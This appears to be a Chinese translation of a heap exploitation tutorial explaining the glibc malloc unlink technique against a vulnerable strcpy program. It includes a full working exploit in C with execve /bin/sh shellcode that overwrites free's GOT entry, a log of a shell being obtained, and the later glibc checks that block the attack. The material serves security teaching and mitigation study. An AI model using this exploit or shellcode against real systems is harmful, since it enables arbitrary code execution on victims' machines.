



CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用到堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。   
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Unlink堆溢出)](http://www.csyssec.org/20170104/heapoverflow-unlink)》与作者信息：CSysSec出品  

## 写在最前  

chunk是指具体进行内存分配的区域，目前的默认大小是4M。   

## 1. 阅读基础

[深入理解glibc malloc](../Linux%20系统底层知识/深入理解glibc%20malloc.md)  

这篇文章，我们会学习到如何利用unlink技术成功利用堆缓冲区溢出。在深入了解unlink技术之前，我们先来看看一个漏洞程序： 

``` c
/* 
 Heap overflow vulnerable program. 
 */
#include <stdlib.h>
#include <string.h>
int main( int argc, char * argv[] )
{
        char * first, * second;
/*[1]*/ first = malloc( 666 );
/*[2]*/ second = malloc( 12 );
        if(argc!=1)
/*[3]*/         strcpy( first, argv[1] );
/*[4]*/ free( first );
/*[5]*/ free( second );
/*[6]*/ return( 0 );
}
```
上面漏洞程序的第三行会导致堆缓冲区溢出。用户输入的’argv[1]’被拷贝到’first’堆缓冲区，而没有设定任何大小限制。因此，当用户的输入大于666字节时，边界就会覆盖下一个chunk的chunk头。这种溢出进而会导致任意代码执行。  

下面是漏洞程序堆内存的形象图:  

   

## 2. unlink技术原理
### 2.1 基本知识介绍
unlink攻击技术就是利用”glibc malloc”的内存回收机制，将上图中的second chunk给unlink掉，并且，在unlink的过程中使用shellcode地址覆盖掉free函数(或其他函数也行)的GOT表项。这样当程序后续调用free函数的时候(如上面代码[5])，就转而执行我们的shellcode了。显然，核心就是理解glibc malloc的free机制。  

在正常情况下，free的执行流程如下文所述：  
PS: 鉴于篇幅，这里主要介绍非mmaped的chunks的回收机制，回想一下在哪些情况下使用mmap分配新的chunk，哪些情况下不用mmap？  
一旦涉及到free内存，那么就意味着有新的chunk由allocated状态变成了free状态，此时glibc malloc就需要进行合并操作——向前以及(或)向后合并。这里所谓向前向后的概念如下：将previous free chunk合并到当前free chunk，叫做向后合并；将后面的free chunk合并到当前free chunk，叫做向前合并。    

#### 一、向后合并
相关代码如下：  
   
 
首先检测前一个chunk是否为free，这可以通过检测当前free chunk的PREV_INUSE(P)比特位知晓。在本例中，当前chunk（first chunk）的前一个chunk是allocated的，因为在默认情况下，堆内存中的第一个chunk总是被设置为allocated的，即使它根本就不存在。  

如果为free的话，那么就进行向后合并：  
1)将前一个chunk占用的内存合并到当前chunk;  
2)修改指向当前chunk的指针，改为指向前一个chunk。  
3)使用unlink宏，将前一个free chunk从双向循环链表中移除(这里最好自己画图理解，学过数据结构的应该都没问题)。  
在本例中由于前一个chunk是allocated的，所以并不会进行向后合并操作。  

### 二、向前合并操作
首先检测next chunk是否为free。那么如何检测呢？很简单，查询next chunk之后的chunk的PREV_INUSE (P)即可。相关代码如下：  
   

整个操作与”向后合并“操作类似，再通过上述代码结合注释应该很容易理解free chunk的向前结合操作。在本例中当前chunk为first，它的下一个chunk为second，再下一个chunk为top chunk，此时top chunk的 PREV_INUSE位是设置为1的(表示top chunk的前一个chunk，即second chunk,已经使用)，因此first的下一个chunk不会被“向前合并“掉。  
   
介绍完向前、向后合并操作，下面就需要了解合并后(或因为不满足合并条件而没合并)的chunk该如何进一步处理了。在glibc malloc中，会将合并后的chunk放到unsorted bin中(还记得unsorted bin的含义么？)。相关代码如下：  
  
 

上述代码完成的整个过程简要概括如下：将当前chunk插入到unsorted bin的第一个chunk(第一个chunk是链表的头结点，为空)与第二个chunk之间(真正意义上的第一个可用chunk)；然后通过设置自己的size字段将前一个chunk标记为已使用；再更改后一个chunk的prev_size字段，将其设置为当前chunk的size。  

注意：上一段中描述的”前一个“与”后一个“chunk，是指的由chunk的prev_size与size字段隐式连接的chunk，即它们在内存中是连续、相邻的！而不是通过chunk中的fd与bk字段组成的bin(双向链表)中的前一个与后一个chunk，切记！    

在本例中，只是将first chunk添加到unsorted bin中。  

### 2.2 开始攻击
现在我们再来分析如果一个攻击者在代码[3]中精心构造输入数据并通过strcpy覆盖了second chunk的chunk header后会发生什么情况。  

假设被覆盖后的chunk header相关数据如下：  
1) prev_size =一个偶数，这样其PREV_INUSE位就是0了，即表示前一个chunk为free。  
2) size = -4  
3) fd = free函数的got表地址address – 12；(后文统一简称为“free addr – 12”)  
4) bk = shellcode的地址  

那么当程序在[4]处调用free(first)后会发生什么呢？我们一步一步分析。  
一、向后合并  
鉴于first的前一个chunk非free的，所以不会发生向后合并操作。  
二、向前合并  
先判断后一个chunk是否为free，前文已经介绍过，glibc malloc通过如下代码判断：  
  
PS：在本例中next chunk即second chunk，为了便于理解后文统一用next chunk。    

从上面代码可以知道，它是通过将nextchunk + nextsize计算得到指向下下一个chunk的指针，然后判断下下个chunk的size的PREV_INUSE标记位。在本例中，此时nextsize被我们设置为了-4，这样glibc malloc就会将next chunk的prev_size字段看做是next-next chunk的size字段，而我们已经将next chunk的prev_size字段设置为了一个偶数，因此此时通过inuse_bit_at_offset宏获取到的nextinuse为0，即next chunk为free！既然next chunk为free，那么就需要进行向前合并，所以就会调用unlink(nextchunk, bck, fwd);函数。真正的重点就是这个unlink函数！  

在前文2.1节中已经介绍过unlink函数的实现，这里为了便于说明攻击思路和过程，再详细分析一遍，unlink代码如下：  

此时P = nextchunk, BK = bck, FD = fwd。  
1)首先FD = nextchunk->fd = free地址– 12;  
2)然后BK = nextchunk->bk = shellcode起始地址；  
3)再将BK赋值给FD->bk，即（free地址– 12）->bk = shellcode起始地址；  
4)最后将FD赋值给BK->fd，即(shellcode起始地址)->fd = free地址– 12。  
前面两步还好理解，主要是后面2步比较迷惑。我们作图理解：  
  

结合上图就很好理解第3，4步了。细心的朋友已经注意到，free addr -12和shellcode addr对应的prev_size等字段是用虚线标记的，为什么呢？因为事实上它们对应的内存并不是chunk header，只是在我们的攻击中需要让glibc malloc在进行unlink操作的时候将它们强制看作malloc_chunk结构体。这样就很好理解为什么要用free addr – 12替换next chunk的fd了，因为(free addr -12)->bk刚好就是free addr，也就是说第3步操作的结果就是将free addr处的数据替换为shellcode的起始地址。  

由于已经将free addr处的数据替换为了shellcode的起始地址，所以当程序在代码[5]处再次执行free的时候，就会转而执行shellcode了。  
 
至此，整个unlink攻击的原理已经介绍完毕，剩下的工作就是根据上述原理，编写shellcode了。只不过这里需要注意一点，glibc malloc在unlink的过程中会将shellcode + 8位置的4字节数据替换为free addr – 12，所以我们编写的shellcode应该跳过前面的12字节。  

被攻击者修改过的用户输入，漏洞程序的堆内存的形象图如下：    
  

## 3. 漏洞利用代码
理解了unlink技术之后，我们就可以写漏洞利用程序了。  

``` c
/* Program to exploit 'vuln' using unlink technique.
 */
#include <string.h>
#include <unistd.h>
#define FUNCTION_POINTER ( 0x0804978c )         //Address of GOT entry for free function obtained using "objdump -R vuln".
#define CODE_ADDRESS ( 0x0804a008 + 0x10 )      //Address of variable 'first' in vuln executable. 
#define VULNERABLE "./vuln"
#define DUMMY 0xdefaced
#define PREV_INUSE 0x1
char shellcode[] =
        /* Jump instruction to jump past 10 bytes. ppssssffff - Of which ffff would be overwritten by unlink function
        (by statement BK->fd = FD). Hence if no jump exists shell code would get corrupted by unlink function. 
        Therefore store the actual shellcode 12 bytes past the beginning of buffer 'first'*/
        "\xeb\x0assppppffff"
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
int main( void )
{
        char * p;
        char argv1[ 680 + 1 ];
        char * argv[] = { VULNERABLE, argv1, NULL };
        p = argv1;
        /* the fd field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the fd_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* Copy the shellcode */
        memcpy( p, shellcode, strlen(shellcode) );
        p += strlen( shellcode );
        /* Padding- 16 bytes for prev_size,size,fd and bk of second chunk. 16 bytes for fd,bk,fd_nextsize,bk_nextsize 
        of first chunk */
        memset( p, 'B', (680 - 4*4) - (4*4 + strlen(shellcode)) );
        p += ( 680 - 4*4 ) - ( 4*4 + strlen(shellcode) );
        /* the prev_size field of the second chunk. Just make sure its an even number ie) its prev_inuse bit is unset */
        *( (size_t *)p ) = (size_t)( DUMMY & ~PREV_INUSE );
        p += 4;
        /* the size field of the second chunk. By setting size to -4, we trick glibc malloc to unlink second chunk.*/
        *( (size_t *)p ) = (size_t)( -4 );
        p += 4;
        /* the fd field of the second chunk. It should point to free - 12. -12 is required since unlink function
        would do + 12 (FD->bk). This helps to overwrite the GOT entry of free with the address we have overwritten in 
        second chunk's bk field (see below) */
        *( (void **)p ) = (void *)( FUNCTION_POINTER - 12 );
        p += 4;
        /* the bk field of the second chunk. It should point to shell code address.*/
        *( (void **)p ) = (void *)( CODE_ADDRESS );
        p += 4;
        /* the terminating NUL character */
        *p = '';
        /* the execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
执行上面的漏洞利用程序，可以触发一个新的shell!  

```
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$
```
保护: 现如今，’glibc malloc’经过许多年的发展已经被强化了(hardened)，unlink已经技术无法成功执行。为了防御unlink技术带来的堆溢出，’glibc malloc’加入了下面的检查：    

* [两次释放(Double Free)](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3947) : 释放已经处于空闲状态的chunk是禁止的。当攻击者试图将’second’ chunk的大小覆盖为-4, 其PREV_INUSE位被复位，意味着’first’已经处于空闲状态。这时’glibc malloc’会抛出一个两次释放错误。  
``` c
if (__glibc_unlikely (!prev_inuse(nextchunk)))
    {
      errstr = "double free or corruption (!prev)";
      goto errout;
    }
```
* [无效的next size](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3954) : 下一个chunk的大小介于8字节与arena的总系统内存之间。当攻击者试图将’second’ chunk的大小覆盖为-4,’glibc malloc’会抛出一个无效的next size错误 
``` c
if (__builtin_expect (nextchunk->size <= 2 * SIZE_SZ, 0)
        || __builtin_expect (nextsize >= av->system_mem, 0))
      {
        errstr = "free(): invalid next size (normal)";
        goto errout;
      }
```
* [损坏的双链表](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L1414) ： 前一个chunk的fd和下一个chunk的bk必须指向当前被unlinked的chunk。当攻击者分别将fd和bk覆盖为-12与shellcode地址， free和(shellcode地址+8)没有指向当前被unlinked的chunk(‘second’)。 ‘glibc malloc’会抛出一个损坏的双链表错误.  
```
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                     
      malloc_printerr (check_action, "corrupted double-linked list", P);
```
注意：为了更好的演示，漏洞程序在编译的时候没有添加以下保护机制：  

[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)  
[NX](https://en.wikipedia.org/wiki/NX_bit)  
[RELRO(ReLocation Read-Only)](https://isisblogs.poly.edu/2011/06/01/relro-relocation-read-only/) 

## 4. 另一种unlink攻击技术
经过上述3层安全检测，是否意味着所有unlink技术都失效了呢？答案是否定的，因为进行漏洞攻击的人脑洞永远比天大！之前刚好看到一篇[好文](https://github.com/JnuSimba/AndroidSecNotes/blob/master/Android%E7%B3%BB%E7%BB%9F%E5%AE%89%E5%85%A8/Android%20%E4%B8%AD%E5%A0%86unlink%20%E5%88%A9%E7%94%A8%E5%AD%A6%E4%B9%A0.md)(强烈推荐)，主讲在Android4.4上利用unlink机制实现堆溢出攻击。众所周知，Android内核基于linux，且其堆内存管理也是使用的glibc malloc，虽然在一些细节上有些许不同，但核心原理类似。该文介绍的攻击方式就成功绕过了上述三层检测。  

## 参考

[vudo malloc tricks](http://phrack.org/issues/57/8.html) 